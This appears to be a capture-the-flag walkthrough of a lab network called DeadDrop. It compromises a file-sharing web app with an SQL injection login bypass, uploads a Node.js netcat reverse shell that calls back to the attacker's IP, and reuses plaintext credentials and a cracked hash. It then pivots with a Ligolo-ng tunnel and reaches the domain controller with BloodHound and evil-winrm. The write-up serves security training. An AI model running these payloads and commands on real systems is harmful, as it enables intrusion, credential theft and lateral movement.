

# Scenario

DeadDrop Ltd's file-sharing application is your starting point. Everything you need to reach the domain controller can be discovered through careful enumeration and exploitation. Each question below marks a milestone in the attack chain.



# Questions



---

## Reconnaissance

Use `Rustscan` to scan for open ports.





Ports **22 (SSH)** and **80 (HTTP)** are open.

Let's access the website and start enumerating.



Since it starts with only a login page, I use `gobuster` to find hidden directory.



---

## Initial Access

I didn't find anything interesting. So, maybe let's try another method like **SQL injection**

I try a simple SQL payload: `' OR 1=1--` for the username and put in a random password, and it worked.



Once inside the dashboard, there was a file upload feature. Since the backend was Node.js/Express, I try uploading a `.js` reverse shell instead of a typical webshell:

`require('child_process').exec('nc -e sh 192.168.21.21 4444')`

and listening with:

`nc -lvnp 4444`



and we're in

---

## Find Credentials

Now, let's check the app files in `/opt/app`. We can see `backup` and `db` directories, so these look interesting.



Inside `db`, I found `deaddrop.db`. Let's check this database for stored credentials.



We got the website database. Inside, it stores `svc-backup` and `admin` credentials.

```
svc-backup
BackupAgent2024

admin
SuperSecretAdm1n!
```

Second, I find another interesting backup file



That’s a **SHA-512 crypt** hash (`$6$`) for the user `svc-drop`. Threw it at `hashcat` against `rockyou.txt` and it cracked cleanly, giving me valid credentials for `svc-drop` to use over SSH.



and this is the **first question's answer**.



---

## Inspect the APK

after accessing the `svc-drop` ssh user, I found `deaddrop-mobile.apk`

Download the file to machine:

`scp svc-drop@192.168.11.200:/home/svc-drop/backup/deaddrop-mobile.apk /home/kali/Downloads/deaddrop-mobile.apk`

and ran it through `jadx-gui` to read the Java source.



Found `j.harris`'s credentials.

This is the **answer to question 2.**

---

## Pivoting into the Internal Network with Ligolo-ng

The DC and other internal hosts weren’t directly reachable from my attacker box; only the initial Linux host was exposed. To reach the AD environment, I set up a `Ligolo-ng` tunnel: ran the proxy on my **attacker machine**, dropped an agent binary on the compromised Linux host, connected the agent back to the proxy, and brought up a tunnel interface with routes added for the internal subnet.

```bash
#Bring the newly created interface online  
sudo ip link set ligolo up  
ligolo-proxy -selfcert  
  
#The agent is to be loaded on the the TryHackMe VM via scp  
#The proxy runs on Kali  
#Start the proxy on Kali  
sudo ligolo-proxy -selfcert  
y to both defaults to 0.0.0.0:11601  
  
#Copy the agent to the Ubuntu VM via scp  
scp /usr/share/ligolo-ng-common-binaries/ligolo-ng_agent_0.8.3_linux_amd64 svc-drop@192.168.11.200:/tmp/agent  
password: dropsofjupiter  
  
#Launch the agent on Ubuntu and connect back to Kali  
ssh svc-drop@192.168.11.200  
cd /tmp  
chmod +x agent  
./agent -connect 192.168.21.6:11601 -ignore-cert  
  
#on Kali in the console tab running ligolo-proxy session  
join --id 1  
start
```



The agent connected back, and the tunnel started. Next, I create the `dead-drop` interface and add routes for the internal hosts.



I got an "already running" message when trying to start the tunnel again. After checking with `tunnel_list`, we can see the agent is online through `ligolo`.



I told Kali to send traffic for `192.168.11.0/24` to ligolo’s tunnel and traffic for the webserver to tun0.

```bash
sudo ip route add 192.168.11.200/32 dev tun0  
sudo ip route add 192.168.11.0/24 dev ligolo
```



Now, we can reach `192.168.11.100`. The scan shows Kerberos, LDAP and SMB, and identifies the machine as `DEADDROP-DC` in `deaddrop.loc`. So, this is our DC.

---

## Bloodhound

Since we already had valid credentials from the `.apk` file, let's feed this info into `bloodhound` using that account.

`sudo bloodhound-python -d deaddrop.loc -u j.harris -p 'DropsOfJupiter2026!' -ns 192.168.11.100 -c all`




In BloodHound, `j.harris` has `AddMember` permission over several groups. This means the account can modify their membership, so these groups are interesting for privilege escalation.




The collection finished even though Kerberos failed because of a name resolution error. It fell back to NTLM and found the domain users, groups and computers.

Next, I use `evil-winrm` with the same `j.harris` credentials to connect to the DC. Let's check who we are.




We are in as `deaddrop\j.harris`.

In the final screenshot, we can see `flag.txt` in `C:\Users\Administrator\Desktop`. Read it with `type flag.txt`.




Finally, we got the last flag.

*DONE!!!*

---
